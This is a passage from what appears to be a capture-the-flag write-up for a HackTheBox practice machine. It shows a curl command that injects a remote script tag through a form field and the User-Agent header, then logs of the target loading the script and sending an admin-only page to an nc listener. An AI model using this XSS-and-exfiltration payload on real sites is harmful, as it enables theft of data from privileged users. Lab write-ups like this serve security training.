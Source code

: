 I’ll run the attack:

    
    
    root@kali# curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.11%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.11/threat_report.js"></script>'
    ...[snip]...
    

The request hits Python:

    
    
    10.10.10.208 - - [22/Jan/2021 17:56:27] "GET /threat_report.js HTTP/1.1" 200 -
    

And then reached `nc`:

    
    
    root@kali# nc -lnkp 3000
    POST / HTTP/1.1
    Host: 10.10.14.11:3000
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://gym-club.crossfit.htb/security_threat/report.php
    Content-Type: text/plain;charset=UTF-8
    Content-Length: 371
    Origin: http://gym-club.crossfit.htb
    Connection: keep-alive
    
    Resp Code: 200
    Page Source:
    <!DOCTYPE html>
    <html>
    <head>
      <title>Security Report</title>
      <style>
        table, th, td {
          border: 1px solid black;
        }
      </style>
    </head>
    <body>
    <h4>Logged XSS attempts</h4>
    <table>
      <thead>
        <tr>
          <td>Timestamp</td>
          <td>User Agent</td>
          <td>IP Address</td>
        </tr>
      </thead>
    <tbody>
    </tbody>
    </body>
    </html>
    